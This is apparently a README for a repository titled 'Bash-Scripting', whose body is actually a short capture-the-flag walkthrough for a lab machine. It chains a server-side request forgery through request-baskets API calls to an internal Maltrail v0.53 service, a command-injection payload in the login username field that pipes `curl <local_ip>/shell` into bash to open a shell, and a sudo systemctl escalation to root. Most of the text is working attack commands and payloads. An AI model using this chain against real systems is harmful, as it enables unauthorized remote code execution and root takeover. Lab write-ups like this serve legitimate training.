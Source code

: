 # Bash-Scripting


herraientas hechas en bash para aprender mas sobre leguaje de comandos
Create a basket like so:

POST /api/baskets/lol
```{"forward_url": "http://127.0.0.1:80/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}```
Then visit http://<ip>:55555/lol

You will see Maltrail (v0.53)
https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

Now create another basket:

POST /api/baskets/lol2
```{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}```
Then send a post request to http://<ip>:55555/lol2 with payload like so:

```username=;`curl <local_ip>/shell | bash`'```
this will get you shell as puma after that just run sudo -l, you wil see:

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

https://gtfobins.github.io/gtfobins/systemctl/#sudo
Get root by just running  ```sudo /usr/bin/systemctl status trail.service
!sh```
